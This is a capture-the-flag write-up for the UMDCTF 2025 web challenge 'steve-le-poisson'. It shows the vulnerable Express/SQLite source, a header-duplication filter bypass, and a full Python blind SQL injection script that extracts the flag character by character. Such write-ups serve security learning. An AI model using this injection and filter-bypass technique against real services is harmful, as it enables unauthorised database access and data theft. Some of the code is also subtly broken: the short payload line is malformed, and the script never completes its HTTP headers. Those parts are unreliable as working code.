 +++
title = 'UMDCTF 2025 - web/steve-le-poisson'
date = 2025-04-28T12:42:38-04:00
draft = false
+++

Steve Le Poisson was a web challenge from UMD CTF 2025. The site plays a fun video of Steve:

![steve1](/images/steve1.png)

Once the video ends, we have a page with an input box:

![steve2](/images/steve2.png)

Lets take a look at the given source:


```javascript
// 📦 Importation des modules nécessaires pour faire tourner notre monde sous-marin numérique
const express = require("express");   // Express, le cadre web minimaliste mais puissant
const sqlite3 = require("sqlite3");   // SQLite version brute, pour les bases de données légères
const sqlite = require("sqlite");     // Une interface moderne (promesse-friendly) pour SQLite
const cors = require("cors");         // Pour permettre à d'autres domaines de parler à notre serveur — Steve est sociable, mais pas trop

// 🐠 Création de l'application Express : c’est ici que commence l’aventure
const app = express();

// 🧪 Fonction de validation des en-têtes HTTP
// Steve, ce poisson à la sensibilité exacerbée, déteste les en-têtes trop longs, ambigus ou mystérieux
function checkBadHeader(headerName, headerValue) {
    return headerName.length > 80 || 
           (headerName.toLowerCase() !== 'user-agent' && headerValue.length > 80) || 
           headerValue.includes('\0'); // Le caractère nul ? Un blasphème pour Steve.
}

// 🛟 Middleware pour autoriser les requêtes Cross-Origin
app.use(cors());

// 🧙 Middleware maison : ici, Steve le Poisson filtre les requêtes selon ses principes aquatiques
app.use((req, res, next) => {
    let steveHeaderValue = null; // On prépare le terrain pour récupérer l’en-tête sacré
    let totalHeaders = 0;        // Pour compter — car Steve compte. Tout. Toujours.

    // 🔍 Parcours des en-têtes bruts, deux par deux (clé, valeur)
    for (let i = 0; i < req.rawHeaders.length; i += 2) {
        let headerName = req.rawHeaders[i];
        let headerValue = req.rawHeaders[i + 1];

        // ❌ Si un en-tête ne plaît pas à Steve, il coupe net la communication
        if (checkBadHeader(headerName, headerValue)) {
            return res.status(403).send(`Steve le poisson, un animal marin d’apparence inoffensive mais d’opinion tranchée, n’a jamais vraiment supporté tes en-têtes HTTP. Chaque fois qu’il en voit passer un — même sans savoir de quoi il s’agit exactement — son œil vitreux se plisse, et une sorte de grondement bouillonne dans ses branchies. Ce n’est pas qu’il les comprenne, non, mais il les sent, il les ressent dans l’eau comme une vibration mal alignée, une dissonance numérique qui le met profondément mal à l’aise. Il dit souvent, en tournoyant d’un air dramatique : « Pourquoi tant de formalisme ? Pourquoi cacher ce qu’on est vraiment derrière des chaînes de caractères obscures ? » Pour lui, ces en-têtes sont comme des algues synthétiques : inutiles, prétentieuses, et surtout étrangères à la fluidité du monde sous-marin. Il préférerait mille fois un bon vieux flux binaire brut, sans tous ces ornements absurdes. C’est une affaire de principe.`); // Message dramatique de Steve
        }

        // 🔮 Si on trouve l’en-tête "X-Steve-Supposition", on le garde
        if (headerName.toLowerCase() === 'x-steve-supposition') {
            steveHeaderValue = headerValue;
        } 

        totalHeaders++; // 🧮 On incrémente notre compteur de verbosité HTTP
    }

    // 🧻 Trop d’en-têtes ? Steve explose. Littéralement.
    if (totalHeaders > 30) {
        return res.status(403).send(`Steve le poisson, qui est orange avec de longs bras musclés et des jambes nerveuses, te fixe avec ses grands yeux globuleux. "Franchement," grogne-t-il en agitant une nageoire transformée en doigt accusateur, "tu abuses. Beaucoup trop d’en-têtes HTTP. Tu crois que c’est un concours ? Chaque requête que tu envoies, c’est un roman. Moi, je dois nager dans ce flux verbeux, et c’est moi qui me noie ! T’as entendu parler de minimalisme ? Non ? Et puis c’est quoi ce délire avec des en-têtes dupliqués ? Tu crois que le serveur, c’est un psy, qu’il doit tout écouter deux fois ? Retiens-toi la prochaine fois, ou c’est moi qui coupe la connexion."`); // Encore un monologue dramatique de Steve
    }

    // 🙅‍♂️ L’en-tête sacré est manquant ? Blasphème total.
    if (steveHeaderValue === null) {
        return res.status(400).send(`Steve le poisson, toujours orange et furibond, bondit hors de l’eau avec ses jambes fléchies et ses bras croisés. "Non mais sérieusement," râle-t-il, "où est passé l’en-tête X-Steve-Supposition ? Tu veux que je devine tes intentions ? Tu crois que je lis dans les paquets TCP ? Cet en-tête, c’est fondamental — c’est là que tu déclares tes hypothèses, tes intentions, ton respect pour le protocole sacré de Steve. Sans lui, je suis perdu, confus, désorienté comme un poisson hors d’un proxy.`);
    }

    // 🧪 Validation de la structure de la supposition : uniquement des caractères honorables
    if (!/^[a-zA-Z0-9{}]+$/.test(steveHeaderValue)) {
        return res.status(403).send(`Steve le poisson, ce poisson orange à la peau luisante et aux nageoires musclées, unique au monde, capable de nager sur la terre ferme et de marcher dans l'eau comme si c’était une moquette moelleuse, te regarde avec ses gros yeux globuleux remplis d’une indignation abyssale. Il claque de la langue – oui, car Steve a une langue, et elle est très expressive – en te voyant saisir ta supposition dans le champ prévu, un champ sacré, un espace réservé aux caractères honorables, alphabétiques et numériques, et toi, misérable bipède aux doigts témérairement chaotiques, tu as osé y glisser des signes de ponctuation, des tilde, des dièses, des dollars, comme si c’était une brocante de symboles oubliés. Tu crois que c’est un terrain de jeu, hein ? Mais pour Steve, ce champ est un pacte silencieux entre l’humain et la machine, une zone de pureté syntaxique. Et te voilà, en train de profaner cette convention sacrée avec ton “%” et ton “@”, comme si les règles n’étaient que des suggestions. Steve bat furieusement des pattes arrière – car oui, il a aussi des pattes arrière, pour la traction tout-terrain – et fait jaillir de petites éclaboussures d’écume terrestre, signe suprême de sa colère. “Pourquoi ?” te demande-t-il, avec une voix grave et solennelle, comme un vieux capitaine marin échoué dans un monde digital, “Pourquoi chercher la dissonance quand l’harmonie suffisait ? Pourquoi saboter la beauté simple de ‘azAZ09’ avec tes gribouillages postmodernes ?” Et puis il s’approche, les yeux plissés, et te lance d’un ton sec : “Tu n’es pas digne de l’en-tête X-Steve-Supposition. Reviens quand tu sauras deviner avec dignité.`);
    }

    // ✅ Si tout est bon, Steve laisse passer la requête
    next();
});

// 🔍 Point d'entrée principal : route GET pour "deviner"
app.get('/deviner', async (req, res) => {
    // 📂 Ouverture de la base de données SQLite
    const db = await sqlite.open({
        filename: "./database.db",           // Chemin vers la base de données
        driver: sqlite3.Database,            // Le moteur utilisé
        mode: sqlite3.OPEN_READONLY          // j'ai oublié ça
    });

    // 📋 Exécution d'une requête SQL : on cherche si la supposition de Steve est correcte
    const rows = await db.all(`SELECT * FROM flag WHERE value = '${req.get("x-steve-supposition")}'`);

    res.status(200); // 👍 Tout va bien, en apparence

    // 🧠 Si aucune ligne ne correspond, Steve se moque gentiment de toi
    if (rows.length === 0) {
        res.send("Bah, tu as tort."); // Pas de flag pour toi
    } else {
        res.send("Tu as raison!");    // Le flag était bon. Steve t’accorde son respect.
    }
});

// 🚪 On lance le serveur, tel un aquarium ouvert sur le monde
const PORT = 3000;
app.listen(PORT, "0.0.0.0", () => {
  console.log(`Serveur en écoute sur http://localhost:${PORT}`);
});


```


We can see that there is an SQL injection here:

```javascript

    const rows = await db.all(`SELECT * FROM flag WHERE value = '${req.get("x-steve-supposition")}'`);
```

There is a filter being applied to the header value, but by setting mutltiple headers with the same value we can bypass this. The code captures the header value from the request using the X-Steve-Supposition header, but it only ever captures the last one encountered in the req.rawHeaders loop. However, the SQL query is actually using the value of the first X-Steve-Supposition header that was passed in the request. To bypass this, we set 2 headers, one that passes the check, and one with whatever payload we want.

I played around with SQL Injections and I found that `a' UNION SELECT value FROM flag -- ';` got `Tu as raison!` which meant the injection worked and a row was being returned. The only problem was that the row value wasn't being returned to us in any way.

We can exfiltrate the flag by testing one character at a time and seeing if we get our response back.

```python
"a' UNION SELECT value FROM flag WHERE substr(value,0='U' -- 
```

Full solve script:
```python
import http.client
import time
import string

HOST = "steve-le-poisson-api.challs.umdctf.io"
PATH = "/deviner"

def get_character(position):
    for char in string.printable:
        sql_injection = f"a' UNION SELECT value FROM flag WHERE substr(value,{position},1)='{char}' -- "

        conn = http.client.HTTPSConnection(HOST)
        conn.putrequest("GET", PATH)

        conn.putheader("X-Steve-Supposition", sql_injection)
        conn.putheader("X-Steve-Supposition", "blah")

        response = conn.getresponse()
        body = response.read().decode()
        conn.close()

        if "Tu as raison!" in body:
            return char
            break

def get_flag():
    flag = 'UMDCTF{'  
    position = 8

    while True:
        char = get_character(position)
        flag += char
        print(flag)
        if char == "}":
            break

        position += 1
        time.sleep(.1)  

if __name__ == "__main__":
    get_flag()
```

One thing to keep in mind is that pythons requests library uses a dictionary for headers, so multiple headers with the same key will name work. I used http.client instead


```
UMDCTF{ile5TVR4IM3NtTresbEAu}
```
